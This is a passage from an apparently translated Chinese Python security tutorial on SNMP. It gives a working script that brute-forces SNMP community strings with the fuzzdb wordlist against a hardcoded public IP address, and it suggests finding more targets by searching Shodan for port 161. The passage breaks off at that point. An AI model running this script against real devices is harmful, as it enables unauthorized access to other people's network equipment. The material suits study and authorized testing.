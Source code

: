 如果我们尝试执行先前的脚本，我们会看到已注册的 SNMP 代理的公共数据：

![](img/bcc8af0d-d614-4382-9daa-89e59139e964.png)

在这个例子中，我们尝试为特定的 SNMP 服务器查找 community。为此任务，我们首先从 fuzzdb 获取包含可用 community 列表的文件`wordlist-common-snmp-community-strings.txt`：

[`github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt`](https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-common-snmp-community-strings.txt)

你可以在文件名为`snmp_brute_force.py`中找到以下代码：

```py
from pysnmp.entity.rfc3413.oneliner import cmdgen

SNMP_HOST = '182.16.190.78'
SNMP_PORT = 161

cmdGen = cmdgen.CommandGenerator()
fd = open("wordlist-common-snmp-community-strings.txt")
for community in fd.readlines():
    snmpCmdGen = cmdgen.CommandGenerator()
    snmpTransportData = cmdgen.UdpTransportTarget((SNMP_HOST, SNMP_PORT),timeout=1.5,retries=0)

    error, errorStatus, errorIndex, binds = snmpCmdGen.getCmd(cmdgen.CommunityData(community), snmpTransportData, "1.3.6.1.2.1.1.1.0", "1.3.6.1.2.1.1.3.0", "1.3.6.1.2.1.2.1.0")
    # Check for errors and print out results
    if error:
        print(str(error)+" For community: %s " %(community))
    else:
        print("Community Found '%s' ... exiting." %(community))
        break
```

要获取服务器和 SNMP 代理，我们可以在 Shodan 中使用 SNMP 协议和端口`161`进行搜索，然后获得以下结果：
